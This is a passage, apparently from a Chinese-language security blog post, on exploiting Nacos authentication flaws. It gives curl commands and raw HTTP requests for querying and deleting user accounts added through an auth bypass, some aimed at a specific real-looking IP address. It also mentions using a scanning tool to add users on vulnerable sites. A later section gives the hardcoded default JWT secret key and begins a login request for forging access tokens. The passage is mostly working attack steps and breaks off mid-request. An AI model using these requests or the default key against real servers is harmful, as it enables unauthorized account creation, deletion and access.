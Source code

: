 username=test&password=test123  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaKHIdibthRkQwHic6jbXLrxEPHGupewVYZyBk533sE9dU6qGwMbFdiamSw/640?wx_fmt=jpeg&from=appmsg "")  
  
查看用户是否添加成功:  
  
/nacos/v1/auth/search?username=test  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia51fbdmibia0TfYiaVrdHafNm4EKroNib2DzoHJ78RIdicicf0MpPn3V1nFqg/640?wx_fmt=jpeg&from=appmsg "")  
  
curl 'http://IP/v1/auth/search?username=test'  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMIHn9rCNdEqIiaibP1I6iarKR7mnkTT7eS0FPgs4NXaLPfZLpicAqho9JQ/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiapLXfA7XTfTUQE6UDDo7GbXDYJccE2bknnFNicJdXKib4oHrbvQOV8b2A/640?wx_fmt=jpeg&from=appmsg "")  
  
删除用户  
curl -X DELETE "http://47.83.174.204:8848/nacos/v1/auth/users?username=test"  
  
或者访问 /nacos/v1/auth/users?username=test，将请求方法修改为DELETE即可删除用户test  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia2j2hYLqGcd3rWVqRHpicQ5LNwKiaEPQ2xYBiaQTkWL0gvCiab8zPl0OwkQ/640?wx_fmt=jpeg&from=appmsg "")  
  
或者使用工具直接进行用户的添加  
  
先将有漏洞的站点扫描一遍选择ua权限绕过漏洞进行添加  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaxJAvibqW2vaABZhOXRB49mycibd0FWrfEc6bCic0bYcmibSFADLd4cgvkw/640?wx_fmt=jpeg&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaPz96QcupPQT0gHL9AKLQiaepyoQmkagfib2yWTDpshgFja26oAURf4XA/640?wx_fmt=jpeg&from=appmsg "")  
### 5.默认jwt密钥-未授权访问  
  
开启了nacos.core.auth.enabled 的情况下，如果未修改默认nacos.core.auth.default.token.secret.key的值（在Nacos<=2.2.0版本中，该值为默认值），则可以通过accessToken值来绕过权限。  
  
nacos.core.auth.default.token.secret.key=SecretKey012345678901234567890123456789012345678901234567890123456789 # =后边的是默认的硬编码  
  
**影响版本**  
  
0.1.0<=nacos<=2.2.0  
#### 漏洞原理  
  
输入正确的账号密码，则后端会返回对应该用户的加密accessToken。  
  
请求包  
  
POST /nacos/v1/auth/users/login HTTP/1.1  
Host:  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0  
Accept: application/json, text/plain, */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate, br  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 29  
Origin: http://47.83.174.204:8848  
Connection: keep-alive  
Referer: http://47.83.174.204:8848/nacos/  
Priority: u=0  
  